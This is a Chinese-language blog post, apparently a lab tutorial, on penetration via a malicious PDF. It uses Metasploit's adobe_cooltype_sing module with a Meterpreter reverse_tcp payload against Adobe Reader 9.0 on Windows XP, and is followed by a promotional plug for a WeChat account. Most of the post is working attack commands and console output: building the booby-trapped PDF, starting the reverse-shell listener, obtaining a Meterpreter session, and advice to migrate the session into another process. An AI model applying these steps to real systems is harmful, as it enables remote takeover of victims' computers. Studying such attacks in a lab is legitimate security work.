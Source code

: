 ```yaml
---
layout: post
category: curleyg-code-hack
title: 基于PDF文件格式的渗透攻击
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 基于PDF文件格式的渗透攻击
lock: need
---
```


# 基于PDF文件格式的渗透攻击

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

漏洞程序： Adobe Reader 9.0

## 生成PDF文件

```bash
msfconsole
use exploit/windows/fileformat/adobe_cooltype_sing 
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.175.128
show options
exploit
```

具体如下所示：

```bash
msf5 > use exploit/windows/fileformat/adobe_cooltype_sing 
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > show options

Module options (exploit/windows/fileformat/adobe_cooltype_sing):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.pdf          yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/fileformat/adobe_cooltype_sing) > exploit

[*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > 
```

可以看到在/root/.msf4/local/目录下生成了msf.pdf。

实际中，我们需要想办法将这个文件传到靶机上。这里为了简单，我直接将文件拷贝到靶机上。

## 上传PDF到靶机

将生成的msf.pdf上传到靶机

## 实施攻击

```bash
msfconsole
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
exploit
```

具体如下：

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 打开PDF文件

在靶机上利用Adobe Reader 9.0打开PDF文件

## 查看获得的Meterpreter

在攻击机Kali上，我们看到MSF控制台中获得了Meterpreter权限。

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1431) at 2019-01-24 16:05:52 +0800

meterpreter > 
```

**最后，最好用migrate命令将当前会话进程绑定到系统的其他进程中。**


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
